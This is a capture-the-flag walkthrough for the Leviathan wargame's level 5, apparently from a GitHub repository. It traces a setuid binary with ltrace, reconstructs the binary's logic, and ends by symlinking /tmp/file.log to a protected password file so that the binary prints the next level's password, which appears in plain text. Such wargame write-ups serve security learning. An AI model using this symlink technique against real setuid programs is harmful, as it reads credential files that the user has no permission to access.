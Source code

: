 No info given 

```shell
leviathan5@leviathan:~$ ls -la
total 32
drwxr-xr-x  3 leviathan5 leviathan5 4096 Oct 30 09:17 .
drwxr-xr-x 11 root       root       4096 Oct 30 09:17 ..
-rw-r--r--  1 leviathan5 leviathan5  220 Apr  9  2014 .bash_logout
-rw-r--r--  1 leviathan5 leviathan5 3637 Apr  9  2014 .bashrc
drwx------  2 leviathan5 leviathan5 4096 Oct 30 09:17 .cache
-rw-r--r--  1 leviathan5 leviathan5  675 Apr  9  2014 .profile
-r-sr-x---  1 leviathan6 leviathan5 7642 Oct 30 04:16 leviathan5
```
Lets Run the executable see what it is doing
```shell
leviathan5@leviathan:~$ ./leviathan5
Cannot find /tmp/file.log
```
Lets create /tmp/file.log
```shell
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
leviathan5@leviathan:~$ cat /tmp/file.log
cat: /tmp/file.log: No such file or directory
```
so I assume that it removes the file or rename it lets look at ltrace
```shell
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485ed, 1, 0xffffd7f4, 0x8048690 <unfinished ...>
fopen("/tmp/file.log", "r")                   = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)             = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```
Lets recreate tmp/file.log and see what happen with ltrace

```shell
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485ed, 1, 0xffffd7f4, 0x8048690 <unfinished ...>
fopen("/tmp/file.log", "r")                   = 0x804b008
fgetc(0x804b008)                              = '\377'
feof(0x804b008)                               = 1
fclose(0x804b008)                             = 0
getuid()                                      = 12005
setuid(12005)                                 = 0
unlink("/tmp/file.log")                       = 0
+++ exited (status 0) +++
I dont fully understand the code lets do full reverse 

So it opened file.log for read 
get 1 character 
check if its end of file 
close the file 
get the id of user in this case 12005 which is leviathan5 
set id of the user who calls the process in this case leviathan5
remove the file symbolic link 

what if the file contain characters instead of being empty 

so i was correct something has changed in ltrace output lets see what happen 
I have created file.log and added the character 'x' saved in /tmp/file.log

```shell
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485ed, 1, 0xffffd7f4, 0x8048690 <unfinished ...>
fopen("/tmp/file.log", "r")            = 0x804b008
fgetc(0x804b008)                       = 'x'
feof(0x804b008)                        = 0
putchar(120, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 120
fgetc(0x804b008)                       = '\n'
feof(0x804b008)                        = 0
putchar(10, 0x8048720, 0xffffd7fc, 0xf7e5519dx
) = 10
fgetc(0x804b008)                       = '\377'
feof(0x804b008)                        = 1
fclose(0x804b008)                      = 0
getuid()                               = 12005
setuid(12005)                          = 0
unlink("/tmp/file.log")                = 0
+++ exited (status 0) +++
```
so it wrote back the character x and unlink the file 
```shell
leviathan5@leviathan:~$ ./leviathan5
x
```

a full code is here 
```python
def main(argc, argv):
    file = fopen("/tmp/file.log", "r") # 0x8048605
    if file == NULL:
        # 0x8048615
        puts("Cannot find /tmp/file.log")
        exit(-1)
        # UNREACHABLE
    c = fgetc(file) # 0x80486346
    if feof(file) != 0:
        # 0x804865e
        fclose(file)
        uid = getuid()
        setuid(uid)
        unlink("/tmp/file.log")
        return 0
    putchar(0x1000000 * c / 0x1000000)
    c2 = fgetc(file) # 0x8048634
    while feof(file) == 0:
        # 0x804864f
        putchar(0x1000000 * c2 / 0x1000000)
        c2 = fgetc(file)
        # continue -> 0x804864f
    # 0x804865e
    fclose(file)
    uid = getuid()
    setuid(uid)
    unlink("/tmp/file.log")
    return 0
```
so what ever is in the file it output it as it is till end of file reached then it unlink the file 
```shell
 ./leviathan5
cat /etc/leviathan_pass/leviathan6
```
lets try again with ltrace

```shell
leviathan5@leviathan:~$ ltrace ./leviathan5
__libc_start_main(0x80485ed, 1, 0xffffd7f4, 0x8048690 <unfinished ...>
fopen("/tmp/file.log", "r")            = 0x804b008
fgetc(0x804b008)                       = 'c'
feof(0x804b008)                        = 0
putchar(99, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 99
fgetc(0x804b008)                       = 'a'
feof(0x804b008)                        = 0
putchar(97, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 97
fgetc(0x804b008)                       = 't'
feof(0x804b008)                        = 0
putchar(116, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 116
fgetc(0x804b008)                       = ' '
feof(0x804b008)                        = 0
putchar(32, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 32
fgetc(0x804b008)                       = '/'
feof(0x804b008)                        = 0
putchar(47, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 47
fgetc(0x804b008)                       = 'e'
feof(0x804b008)                        = 0
putchar(101, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 101
fgetc(0x804b008)                       = 't'
feof(0x804b008)                        = 0
putchar(116, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 116
fgetc(0x804b008)                       = 'c'
feof(0x804b008)                        = 0
putchar(99, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 99
fgetc(0x804b008)                       = '/'
feof(0x804b008)                        = 0
putchar(47, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 47
fgetc(0x804b008)                       = 'l'
feof(0x804b008)                        = 0
putchar(108, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 108
fgetc(0x804b008)                       = 'e'
feof(0x804b008)                        = 0
putchar(101, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 101
fgetc(0x804b008)                       = 'v'
feof(0x804b008)                        = 0
putchar(118, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 118
fgetc(0x804b008)                       = 'i'
feof(0x804b008)                        = 0
putchar(105, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 105
fgetc(0x804b008)                       = 'a'
feof(0x804b008)                        = 0
putchar(97, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 97
fgetc(0x804b008)                       = 't'
feof(0x804b008)                        = 0
putchar(116, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 116
fgetc(0x804b008)                       = 'h'
feof(0x804b008)                        = 0
putchar(104, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 104
fgetc(0x804b008)                       = 'a'
feof(0x804b008)                        = 0
putchar(97, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 97
fgetc(0x804b008)                       = 'n'
feof(0x804b008)                        = 0
putchar(110, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 110
fgetc(0x804b008)                       = '_'
feof(0x804b008)                        = 0
putchar(95, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 95
fgetc(0x804b008)                       = 'p'
feof(0x804b008)                        = 0
putchar(112, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 112
fgetc(0x804b008)                       = 'a'
feof(0x804b008)                        = 0
putchar(97, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 97
fgetc(0x804b008)                       = 's'
feof(0x804b008)                        = 0
putchar(115, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 115
fgetc(0x804b008)                       = 's'
feof(0x804b008)                        = 0
putchar(115, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 115
fgetc(0x804b008)                       = '/'
feof(0x804b008)                        = 0
putchar(47, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 47
fgetc(0x804b008)                       = 'l'
feof(0x804b008)                        = 0
putchar(108, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 108
fgetc(0x804b008)                       = 'e'
feof(0x804b008)                        = 0
putchar(101, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 101
fgetc(0x804b008)                       = 'v'
feof(0x804b008)                        = 0
putchar(118, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 118
fgetc(0x804b008)                       = 'i'
feof(0x804b008)                        = 0
putchar(105, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 105
fgetc(0x804b008)                       = 'a'
feof(0x804b008)                        = 0
putchar(97, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 97
fgetc(0x804b008)                       = 't'
feof(0x804b008)                        = 0
putchar(116, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 116
fgetc(0x804b008)                       = 'h'
feof(0x804b008)                        = 0
putchar(104, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 104
fgetc(0x804b008)                       = 'a'
feof(0x804b008)                        = 0
putchar(97, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 97
fgetc(0x804b008)                       = 'n'
feof(0x804b008)                        = 0
putchar(110, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 110
fgetc(0x804b008)                       = '6'
feof(0x804b008)                        = 0
putchar(54, 0x8048720, 0xffffd7fc, 0xf7e5519d) = 54
fgetc(0x804b008)                       = '\n'
feof(0x804b008)                        = 0
putchar(10, 0x8048720, 0xffffd7fc, 0xf7e5519dcat /etc/leviathan_pass/leviathan6
) = 10
fgetc(0x804b008)                       = '\377'
feof(0x804b008)                        = 1
fclose(0x804b008)                      = 0
getuid()                               = 12005
setuid(12005)                          = 0
unlink("/tmp/file.log")                = 0
```
so we can do a symbolic link between /tmp/file.log and leviathan6 password lets give that a shot 

```shell
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
UgaoFee4li
```
Bingooooooooooooooooo
